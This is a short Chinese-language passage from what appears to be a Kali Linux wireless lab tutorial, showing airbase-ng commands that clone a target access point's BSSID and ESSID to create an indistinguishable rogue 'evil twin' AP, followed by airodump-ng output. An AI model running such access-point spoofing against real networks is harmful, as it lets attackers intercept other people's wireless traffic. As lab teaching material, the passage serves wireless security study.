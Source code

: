 使用`-a`参数 让他们虚假难分

```bash
root@kali:~# airbase-ng -a E4:D3:32:44:61:BE --essid "Wireless Lab" -c 6 wlan0
17:00:12  Created tap interface at0
17:00:12  Trying to set MTU on at0 to 1500
17:00:12  Access Point with BSSID E4:D3:32:44:61:BE started.
```

此时已近看不到两个AP

```bash
root@kali:~# airodump-ng -c 6 wlan0

 CH  6 ][ Elapsed: 36 s ][ 2019-11-24 17:02                                         

 BSSID              PWR RXQ  Beacons  #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 E4:D3:32:44:61:BE  -55   2      752      0    0   6  405  WPA2 CCMP   PSK  Wireless Lab 
 50:D2:F5:23:14:1C  -58 100      392    259    0   7  130  WPA2 CCMP   PSK  Xiaomi_DDD
 
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                              
 50:D2:F5:23:14:1C  C0:EE:FB:06:C1:AF  -73    1e- 1e     0        7
```

